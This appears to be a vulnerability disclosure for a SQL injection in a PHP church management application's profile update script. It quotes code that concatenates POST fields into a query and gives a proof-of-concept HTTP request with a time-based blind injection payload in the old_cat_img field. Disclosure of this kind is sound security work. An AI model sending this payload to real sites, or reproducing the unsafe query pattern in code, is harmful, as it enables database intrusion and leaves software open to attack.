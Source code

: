 ### Vulnerability file address

`church/admin/app/profile_crud.php` from line 34,The `$_POST['old_cat_img']` parameter is controllable and the `$_POST['old_cat_img']` is not protected from sql injection, line 39

 ````
$stmt = $conn->prepare("UPDATE `login` SET `username`='" . $_POST['username'] . "',`email`='" . $_POST['email'] . "',`mobileno`='" . $_POST['mobileno'] . "',`image`='" . $img . "' WHERE id='" . $_SESSION['id'] . "' ");
 ````

 line 41 `$stmt->execute();` performs a SQL query, causing SQL injection

```php
<?php
session_start();
include '../../assets/constant/config.php';

try {
	$conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
	echo "Connection failed: " . $e->getMessage();
}
if (isset($_POST['update'])) {

	$uploadDir = '../../assets/images/';
	if ($_FILES['image']['tmp_name'] != '') {
		$filepath = "../../assets/images/" . $_FILES["image"]["name"];
		$originalName = basename($_FILES['image']['name']);
		$extension = pathinfo($originalName, PATHINFO_EXTENSION);

		// Generate a new unique file name
		$newName = uniqid() . '.' . $extension;

		// Set the path to the new file location
		$newFilePath = $uploadDir . $newName;

		// Upload the file to the server


		if (move_uploaded_file($_FILES["image"]["tmp_name"], $filepath)) {
			$img = $_FILES["image"]["name"];

			@unlink("../../assets/images/" . $_POST['old_cat_img']);
		}
	} else {
		$img = $_POST['old_cat_img'];
	}


	//echo "UPDATE `login` SET `username`='".$_POST['username']."',`email`='".$_POST['email']."',`mobileno`='".$_POST['mobileno']."',`image`='".$img."' WHERE id='".$_SESSION['id']."' ";exit;
	$stmt = $conn->prepare("UPDATE `login` SET `username`='" . $_POST['username'] . "',`email`='" . $_POST['email'] . "',`mobileno`='" . $_POST['mobileno'] . "',`image`='" . $img . "' WHERE id='" . $_SESSION['id'] . "' ");

	$stmt->execute();
```

### POC

```http
POST /church/admin/app/profile_crud.php HTTP/1.1
Host: www.church.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=kecn6qqrggjnvlpgliqeq951j0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 2

update=1&email=&old_cat_img=' WHERE 5169=5169 AND (SELECT 4975 FROM (SELECT(SLEEP(5)))sBXY)-- ISGh&mobileno=
```

### Attack results pictures

![image-20250220215142301](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502202151346.png)
